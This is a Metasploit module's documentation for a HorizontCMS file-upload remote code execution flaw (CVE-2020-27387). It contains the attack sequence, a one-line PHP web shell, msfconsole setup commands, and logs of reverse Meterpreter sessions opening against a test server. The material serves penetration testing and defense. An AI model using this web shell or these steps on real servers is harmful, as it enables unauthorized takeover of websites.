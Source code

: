 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability (CVE-2020-27387) in HorizontCMS 1.0.0-beta and prior
in order to execute arbitrary commands.

The module first tries to obtain the HorizontCMS version and a csrf token from `/admin/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination.

If authentication is successful, the module tries to upload a malicious PHP file via an HTTP POST request to
`/admin/file-manager/fileupload`. The server will store the file, but will rename it to a random string.
The module will therefore attempt to change the filename back to the original name via an HTTP POST request to `/admin/file-manager/rename`.

If the `php` target is selected, the payload is embedded in the uploaded file and the module attempts to execute the payload via an HTTP GET
request to `/storage/file_name`.
For the `linux` and `windows` targets, the module uploads a simple PHP web shell similar to `<?php system($_GET["cmd"]); ?>`.
Subsequently, it leverages the CmdStager mixin to deliver the final payload via a series of HTTP GET requests in the form of
`/storage/<php_web_shell>?<cmd>=<payload>`.

Valid credentials for a HorizontCMS user with permissions to use the FileManager are required.
This would be all users in the Admin, Manager and Editor groups if HorizontCMS is configured with the default group settings.
This module has been successfully tested against HorizontCMS 1.0.0-beta running on Ubuntu 18.04.

Vulnerable software for testing is available on GitHub [here](https://github.com/ttimot24/HorizontCMS/releases).
Detailed installation instructions for Ubuntu 16.04 and 18.04 are available
[here](https://websiteforstudents.com/how-to-install-horizontcms-on-ubuntu-18-04-16-04-with-apache2/).
These instructions recommend configuring a virtual host for HorizontCMS.
If a virtual host is enabled on the target, successful exploitation requires the `vhost` option to be set for the module.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/HorizontCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the HorizontCMS account]`
6. Do: `set PASSWORD [password for the HorizontCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the HorizontCMS account to authenticate with.
### TARGETURI
The base path to HorizontCMS. The default value is `/`.
### USERNAME
The username for the HorizontCMS account to authenticate with.

## Targets
```
Id  Name
--  ----
0   PHP
1   Linux
2   Windows
```

## Scenarios
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04) - PHP target
```
msf exploit(multi/http/horizontcms_upload_exec) > show options 

Module options (exploit/multi/http/horizontcms_upload_exec):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   PASSWORD   test              yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.227     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                 yes       The base path to HorizontCMS
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME   test              yes       Username to authenticate with
   VHOST      testhorizont.com  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


msf exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as EaCPK1HSbRru.php...
[+] Successfully uploaded EaCPK1HSbRru.php. The server renamed it to Mflikdb8nNKTivXU3HPZnpsCy3nOu34FH1IsWaxl
[+] Successfully renamed payload back to EaCPK1HSbRru.php
[*] Executing the payload...
[*] Sending stage (39264 bytes) to 192.168.1.227
[*] Meterpreter session 1 opened (192.168.1.128:4444 -> 192.168.1.227:49968) at 2020-10-31 15:52:57 -0400
[+] Successfully deleted EaCPK1HSbRru.php

meterpreter > getuid
Server username: www-data (33)
meterpreter >
```
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04 - Linux target
```
msf exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as W6nQKce4Uq.php...
[+] Successfully uploaded W6nQKce4Uq.php. The server renamed it to L6TL9BHTAckj6UrzfSyOBvAT3Bl2uFskRHrG3pXG
[+] Successfully renamed payload back to W6nQKce4Uq.php
[*] Executing the payload via a series of HTTP GET requests to `/storage/W6nQKce4Uq.php?qo1E=<command>`
[*] Sending stage (3008420 bytes) to 192.168.1.227
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Meterpreter session 2 opened (192.168.1.128:4444 -> 192.168.1.227:49978) at 2020-10-31 15:56:58 -0400
[+] Successfully deleted W6nQKce4Uq.php

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > 
```
